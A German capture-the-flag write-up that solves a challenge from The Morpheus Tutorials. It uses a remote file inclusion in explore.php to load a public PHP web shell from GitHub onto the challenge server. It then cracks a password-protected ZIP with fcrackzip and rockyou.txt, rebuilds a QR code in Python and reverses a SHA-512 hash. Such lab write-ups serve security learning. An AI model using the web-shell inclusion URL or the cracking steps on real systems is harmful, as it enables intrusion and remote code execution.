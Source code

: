 # Solution of [HC 0x0e](https://challenges.the-morpheus.de) from [The Morpheus Tutorials](https://the-morpheus.de)

### 1. Analyse der Webseite
Um auf das Impressum oder das Gästebuch zuzugreifen wird die Datei explore.php mit dem GET Parameter file aufgerufen, das wird im HTML Quellcode deutlich.
```html
...
<li class="nav-item"><a class="nav-link" href="explore.php?file=https://the-morpheus.de/faq.html">Impressum</a></li>
<li class="nav-item"><a class="nav-link" href="explore.php?file=guests.php">Gästebuch</a></li>
...
```

Auch die `robots.txt` kann hilfreich sein. In diesem Fall sollen Suchmachinen die Datei explore.php nicht indexieren.
```
Disallow: explore.php
```

### 2. Finden und Ausnutzen der Sicherheitslücke (local file inclusion) in der Datei `explore.php`
Wenn man die Datei ohne das GET Parameter `file` aufruft, gibt es die Fehlermeldung:
```
missing get parameter "file"
```

Beim versuch auf nicht HTML/PHP Dateien zuzugreifen erscheint eine Fehlermeldung das die Dateiendung (extension) nicht erlaubt ist.

Das Impressum wird über http eingebunden, das könnte auf eine remote file inclusion hindeuten. Wenn allerdings nur html dateien von anderen Servern eingebunden werden dürfen, bringt das recht wenig. Versuchen wir es mit einer [PHP WebShell](https://github.com/Arrexel/phpbash).

[http://185.244.192.170:20006/explore.php?file=https://raw.githubusercontent.com/Arrexel/phpbash/master/phpbash.php](http://localhost:8080/explore.php?file=https://raw.githubusercontent.com/Arrexel/phpbash/master/phpbash.php)


Ok, das hat funktioniert. Nun hat man eine Interaktive Bash Shell. Die Aufgabenstellung verrät das sich im Homeverzeichnis eines Benutzers eine ZIP Datei befindet.

An diesem Punkt sollte man sich nicht nur auf die Aufgabenstellung konzentrieren. Neben der eigentlichen Challenge im Homeverzeichnis gibt es auch eine Special Challenge. [Klick hier um zum write up zu kommen.](./solution_de_special_challenge.md)

### 3. ZIP Datei herunterladen und entschlüsseln
Es gibt verschiedene Möglichkeiten die Datei herunterzuladen. Am einfachsten ist, die Datei in `/var/www/html` zu kopieren und mit dem Browser darauf zuzugreifen.

Da die ZIP Datei mit einem Passwort geschützt ist muss dieses erst durch einen Directory Angriff mit der bekannten Wordlist [rockyou.txt](http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2) und einem Tool wie fcrackzip herausgefunden werden.
```
$ fcrackzip -D -u -p rockyou.txt secret.zip
PASSWORD FOUND!!!!: pw == sunshine
```

### 4. Inhalt der ZIP Datei analysieren und in QR Code umwandeln. (Challenge + Texte by @youreMine)
#### 4.1 Erkennen des Binärcodes
Man erkennt den QR Code sobald man den Text in gleichgroße Absätze aufteilt.

#### 4.2 Script zum Umwandeln der Binärdatei in einen QR Code erstellen.
```python3
from PIL import Image
import textwrap

with open("input_binary_or_not.txt", "r") as f:
    string = f.read()

converted = []

for row in textwrap.wrap(string, 530)[0::10]:
    converted.append(row.replace("0", " ")[0::10])
    print(row.replace("0", " ")[0::10])

img = Image.new('RGB', (len(converted[0]), len(converted)), "white")
pixels = img.load()

for y in range(img.size[0]):
    for x in range(img.size[1]):
        if converted[x][y] == "1":
            pixels[y, x] = (0, 0, 0)

img.save("output_qr.png")
```

**Alternative Lösung von @MaxiHuhe04**
```python
from PIL import Image, ImageDraw

data = open("input_binary_or_not.txt").read()
size = int(len(data) ** 0.5)
im = Image.new("1", (size, size))
draw = ImageDraw.Draw(im)

for i, b in enumerate(data):
        draw.point((i % size, i // size), not int(b))

im.show()
```

Anschließend kann man den QR Code in der Datei `output_qr.png` scannen und enthält die Ausgabe:
```
a336f671080fbf4f2a230f313560ddf0d0c12dfcf1741e49e8722a234673037dc493caa8d291d8025f71089d63cea809cc8ae53e5b17054806837dbe4099c4ca=sha512(text)
```

![QR Code Scanner](https://i.imgur.com/PW9Mkpb.jpg)

### 5. Hash in Text umwandeln
Der gefundene Hash kann anschließend über das [Hashtoolkit](http://hashtoolkit.com/reverse-hash/?hash=a336f671080fbf4f2a230f313560ddf0d0c12dfcf1741e49e8722a234673037dc493caa8d291d8025f71089d63cea809cc8ae53e5b17054806837dbe4099c4ca) oder über Hashcat in ein Text zurückentwickelt werden.

Der mit `sha512` gehashte Text lautet: `mypassword`
